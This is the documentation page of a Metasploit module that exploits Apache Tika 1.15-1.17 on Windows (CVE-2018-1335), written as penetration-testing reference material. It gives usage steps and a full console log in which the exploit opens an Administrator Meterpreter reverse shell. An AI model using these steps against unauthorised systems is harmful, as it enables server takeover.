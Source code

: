 ## Vulnerable Application

  This module works against Windows installations of Apache Tika 1.15-1.17, and was successfully tested on
  1.15-1.17.  Apache Tika can be downloaded from [here](https://archive.apache.org/dist/tika/), and requires Java to be installed.
  While the vulnerability is reported in more versions, exploitation was only successful against > 1.14 when jp2 was added as per
  [this comment](https://github.com/rapid7/metasploit-framework/pull/11653#issuecomment-516159557).

  Rhino Security Labs has an Excellent write-up describing this vulnerability.  Find it on
  [rhinosecuritylabs.com](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/) or
  [wayback](https://web.archive.org/web/20190314101650/https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploits/windows/http/apache_tika_jp2_jscript```
  4. Do: ```run```
  5. You should get a shell.

## Scenarios

### 1.17 on Windows 2012 running as Administrator

```
resource (tika.rb)> use exploits/windows/http/apache_tika_jp2_jscript
resource (tika.rb)> set rhost 2.2.2.2
rhost => 2.2.2.2
resource (tika.rb)> set verbose true
verbose => true
resource (tika.rb)> check
[*] Apache Tika Version Detected: 1.17
[+] 2.2.2.2:9998 - The target is vulnerable.
resource (tika.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Powershell command length: 2278
[*] Sending PUT request to 2.2.2.2:9998/meta
[*] Sending stage (179779 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:49313) at 2019-03-28 21:33:09 -0400

meterpreter > getuid
Server username: WIN-OBKF2JFCDKL\Administrator
meterpreter > getpid
Current pid: 1552
meterpreter > sysinfo
Computer        : WIN-OBKF2JFCDKL
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
